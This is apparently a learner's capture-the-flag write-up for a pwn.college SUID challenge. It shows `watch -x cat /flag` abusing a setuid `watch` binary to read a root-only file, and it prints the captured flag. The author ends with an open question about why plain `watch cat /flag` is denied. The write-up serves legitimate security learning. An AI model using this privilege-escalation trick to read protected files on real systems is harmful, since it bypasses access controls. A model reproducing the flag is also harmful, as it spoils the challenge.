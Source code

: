 `watch`

`watch` executes a program periodically, showing output full screen. It's useful for monitoring changes or updates in real time.

try running `watch -d -n 1 top` on terminal. Also read the `man watch`.

```bash
hacker@program-misuse-level-31:~$ cd /challenge/
hacker@program-misuse-level-31:/challenge$ ls
babysuid_level31
hacker@program-misuse-level-31:/challenge$ ./babysuid_level31 
Welcome to ./babysuid_level31!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/watch.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level31) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/watch!
hacker@program-misuse-level-31:/challenge$ watch cat /flag
hacker@program-misuse-level-31:/challenge$ watch -x cat /flag
```


 `Every 2.0s: cat /flag                                                                                                                          program-misuse-level-31: Tue Jan  2 13:26:55 2024> 
 
`pwn.college{M5lwn2rcFJvBADPnttRAtgpLHae.01M3EDL0AjNzQzW}`

If you run `watch cat /flag` it will show `permission denied`. Other options also gave me `permission denied`. But `watch -x cat /flag` gave me the flag.

> [!In the manual, I found this]
> -x, --exec
>               Pass command to exec(2) instead of sh -c which reduces the need to use extra quoting to get the desired effect.


But don't know what does it mean?

> [!QUESTION]
> Also, When I run `watch cat /flag` with `watch` having the SUID bit set, it should inherit those elevated permissions and be able to read the `/flag` file even if I don't have permission to read it. But we see it says `permission denied`.
